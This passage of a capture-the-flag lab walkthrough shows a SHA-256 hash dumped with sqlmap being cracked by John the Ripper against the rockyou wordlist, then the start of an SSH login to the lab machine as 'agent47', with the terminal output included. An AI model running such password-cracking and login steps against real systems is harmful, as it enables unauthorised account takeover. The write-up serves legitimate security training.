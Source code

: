 And answer no to cracking them now:
```
do you want to crack them via a dictionary-based attack? [Y/n/q] n
```

You can see it saved the hash to a file in **/tmp/sqlmapvjwty2jg29121/** which I went ahead and renamed to hash.txt and moved to my working directory for use in the next task.

You can answer all 3 questions for this task based on the output above.

<br>

## Task 4 - Cracking a password with JohnTheRipper

<br>

### Objectives
- Read the information
- What is the de-hashed password?
- Now thou have the password and username. Try SSH'ing onto the machine.

<br>

### Objective 1 and 2

After reading the information you should have an understanding of how to use **JohnTheRipper** to crack the password hash we found in the previous step.

I run the command it asks us to `john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256` and within a second it has already been cracked:

```
┌──(kali㉿kali)-[~/work]
└─$ john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>    (<REDACTED>)     
1g 0:00:00:00 DONE (2022-01-25 10:31) 7.692g/s 22685Kp/s 22685Kc/s 22685KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

<br>

### Objective 3

```
Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
```

I open up an **ssh** session to the machine with the following command: `ssh agent47@10.10.131.100` and login:
